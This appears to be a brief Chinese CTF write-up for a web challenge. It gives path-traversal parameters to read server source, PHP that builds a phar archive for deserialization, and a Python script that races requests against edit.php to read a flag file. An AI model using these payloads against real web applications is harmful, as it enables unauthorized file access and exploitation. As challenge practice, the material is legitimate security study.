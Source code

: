 png=../../../../../../var/www/html/upload.php&flag=1

png=../../../../../../var/www/html/edit.php&flag=1

相同方法拿到源码

生成phar文件

```php
<?php
class flag{
}
$a = new flag();
echo serialize($a);
$phar = new Phar("phar.phar");
$phar -> startBuffering();
$phar -> setStub("<?php __HALT_COMPILER(); ?>");
$phar -> setMetadata($a); 
$phar -> addFromString("test.txt","test");
$phar -> stopBuffering();
?>
```

上传phar文件后拿到路径

uploads/fe409167fb98b72dcaff5486a612a575.png

构造脚本条件竞争

```python
import requests
import threading
import time

url = "http://55451a14-9ccb-47db-809c-f4cc30a0c937.node4.buuoj.cn:81/"
png = "/uploads/head.png"
flag = "../../../../../../tmp/flag.txt"
phar = "phar://uploads/fe409167fb98b72dcaff5486a612a575.png"

def getpng():
    res = requests.get(url+png)
    print(res.text)

def linkflag():
    data = {
        "flag":"1",
        "png":flag
    }
    res = requests.post(url=url+"/edit.php",data=data)
    print(res.text)

def putphar():
    data = {
        "flag":"1",
        "png":phar
    }
    res = requests.post(url=url+"/edit.php",data=data)
    print(res.text)

while True:
    for i in range(10):
        t3 = threading.Thread(target=putphar)
        t3.start()
        t2 = threading.Thread(target=linkflag)
        t2.start()
        t1 = threading.Thread(target=getpng)
        t1.start()
    time.sleep(5)
```